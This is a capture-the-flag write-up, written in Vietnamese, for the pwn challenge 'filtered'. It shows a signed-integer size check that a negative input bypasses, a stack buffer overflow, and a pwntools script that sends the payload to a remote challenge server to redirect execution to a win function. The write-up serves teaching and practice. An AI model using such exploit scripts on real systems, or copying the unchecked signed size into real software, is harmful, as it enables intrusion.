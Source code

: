 # FILTERED

## REVERSE FILE

Kiểm tra một số thông tin cơ bản của file.
```sh
filtered: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f3655fdac42465b5af8a11fda53d47a9c09c0625, for GNU/Linux 3.2.0, not stripped
```
checksec file để xem 1 số cơ chế bảo mật như:
* NX enable: không có quyền execute trên stack.
* No canary found: không có 1 chuỗi ngẫu nhiên gần return address. Dễ dàng buffer overflow.
* No PIE: 1 số địa chỉ trên .bss không đổi.
```sh
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/ascs/pwn1/filtered'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Bỏ file vào IDA để xem pseudocode
```sh
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[268]; // [rsp+0h] [rbp-110h] BYREF
  int v5; // [rsp+10Ch] [rbp-4h]

  v5 = readint((__int64)"Size: ");
  if ( v5 > 256 )
  {
    print("Buffer overflow detected!\n");
    exit(1);
  }
  readline((__int64)"Data: ", (__int64)v4, v5);
  print("Bye!\n");
  return 0;
}s
```

Bài này cho phép người dùng nhập Size, và kiểm tra giới hạn trên nếu lớn hơn 256 thì thoát, ngược lại cho phép nhập.

Trong challenge có sẵn 1 hàm win, mục tiêu bài nãy sẽ là điều khiển control flow nhảy về hàm này.

## Exploit

Do chương trình chặn trên mà không chặn dưới, mà trong hàm readInt() có sử dụng hàm Atoi(), hàm chuyển một chuỗi về dạng số.
```sh
int __fastcall readint(__int64 a1)
{
  char nptr[16]; // [rsp+10h] [rbp-10h] BYREF

  readline(a1, nptr, 16LL);
  return atoi(nptr);
}
```
Nên việc nhập -1 vào `Size: ` sẽ giúp bỏ qua điều kiện if và dẫn đến việc nhập một chuỗi với size rất lớn.
Sau khi hàm readInt() thì thanh ghi `RAX = 0xffffffffffffffff`, việc kiểm tra điều kiện V5 sẽ nhỏ hơn 256 vì:
```sh
pwndbg> p/d 0xffffffffffffffff
$1 = -1
```
Cùng với việc readline với length = v5, sẽ có thể buffer overflow.

```sh
from pwn import *
#s = process("./filtered")
s = remote("167.99.78.201", 9001)
s.sendline("-1")
s.sendline("A"*280+p64(0x4011d6))
s.interactive()

```
# ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}